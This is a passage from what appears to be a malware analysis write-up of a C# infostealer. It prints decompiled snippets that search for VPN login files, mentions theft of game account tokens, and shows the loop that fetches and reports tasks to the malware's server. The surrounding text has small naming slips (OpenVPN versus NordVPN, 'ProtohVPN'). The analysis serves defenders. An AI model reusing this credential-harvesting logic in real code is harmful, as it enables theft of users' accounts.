 ```csharp
      }
```
It pretty much retrieves tokens from any installed game on the device, related AccountNames and tokens to steal game account credentials.

We can clearly see that settings.Id8 is again just a server flag to either steal (or not steal) such game data.

#### Callback 21
```csharp
public static void asdasod9234oasd(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  if (settings.Id7)
  {
      connection.Id18(Entity21.Id1());
      connection.Id19(FileScanning.Search(new OpenVPN()));
      connection.Id21(FileScanning.Search(new РrоtoнVРN()));
  }
}
```
This is again very similar to the previous 2 callbacks.

It tries to find OpenVPN and ProtohVPN on the device, by scanning `%LOCALAPPDATA%\NordVPN` or `%LOCALAPPDATA%\ProtohVPN`.

→ For each found directory it checks whether a file named user.config exists, and then parses its contents into Entity12, which is just LoginData (login details for those VPN services).
We can also assume that settings.id7 is just settings.StealVpnData, since that’s what this callback does.


# Completing the static analysis
Let’s get back to the Console.WriteLine function and analyze what happens.

```csharp
IList<Entity6> remoteTasks = new List<Entity6>();
  user.Id8 = "UNKNWON";
  while (!connectionProvider.Id26(user, out remoteTasks))
  {
      if (!connectionProvider.Id3())
      {
          throw new Exception();
      }
      Thread.Sleep(1000);
  }
  foreach (int item in new TaskResolver(result).ReleaseUpdates(remoteTasks))
  {
      while (!connectionProvider.Id27(user, item))
      {
          if (!connectionProvider.Id3())
          {
              throw new Exception();
          }
          Thread.Sleep(1000);
      }
  }
  Environment.Exit(0);
}
```
